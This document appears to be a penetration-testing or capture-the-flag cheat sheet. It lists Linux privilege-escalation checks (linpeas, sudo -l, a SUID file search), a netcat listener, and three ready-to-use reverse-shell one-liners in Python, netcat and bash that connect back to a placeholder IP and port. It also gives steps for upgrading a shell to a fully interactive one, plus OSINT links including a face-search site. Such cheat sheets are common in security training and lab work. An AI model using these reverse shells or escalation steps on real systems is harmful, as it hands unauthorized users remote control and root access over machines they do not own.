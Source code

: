 ### Privilege escalation

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
    - `./linpeas.sh`
    - Automatically looks for privilege escalation vectors
- List commands we can run as root
    - `sudo -l`
- Find files with the SUID permission
    - `find / -perm -u=s -type f 2>/dev/null`
    - These files execute with the privileges of the owner instead of the user executing them

### Listen for reverse shell

- `nc -lnvp <port>`

### Reverse shell

- revshells.com
    - templates for basically everything you might need
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- `nc -e /bin/sh <ip> <port>`
- `bash -i >& /dev/tcp/<ip>/<port> 0>&1`

### Get interactive shell

#### Linux

1. Run the following python command to make it partially interactive: `python -c 'import pty;pty.spawn("/bin/bash");'`
2. Exit the netcat session with `CTRL+Z` and run `stty raw -echo` locally
3. Reenter your session with the command `fg` (and the job id afterward if needed)
4. Change your terminal emulator to xterm by running `export TERM=xterm` (this might not be necessary)
5. Change your shell to bash by running `export SHELL=bash` (this might not be necessary)
6. Done! Now your shell should be fully interactive

#### Windows / General

1. Install `rlwrap` on your system
2. Now, every time you run a nc listener, just put `rlwrap` in front
3. For example: `rlwrap nc -lvnp 1337`
	* This will give you arrow keys and command history, but won't give autocompletion (as far as I can tell) for windows and *nix systems 
## OSINT

- [pimeyes](https://pimeyes.com/en)
    - Reverse search faces on the internet
- [OSINT Framework](https://osintframework.com/)
    - Website that aggregates tons of OSINT tools.
## Misc
